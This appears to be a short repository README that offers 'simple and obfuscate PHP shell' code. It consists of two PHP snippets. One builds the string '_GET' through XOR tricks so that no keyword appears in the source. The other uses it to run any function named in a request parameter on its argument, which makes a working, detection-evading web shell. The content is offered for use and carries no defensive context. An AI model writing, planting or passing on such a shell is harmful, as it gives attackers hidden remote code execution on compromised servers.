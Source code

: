 # simple-and-obfuscate-PHP-shell
several list of simple and obfuscate PHP shell

```
<?php
$_="{";
$_=($_^"<").($_^">;").($_^"/");
?>
```

```
<?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
```
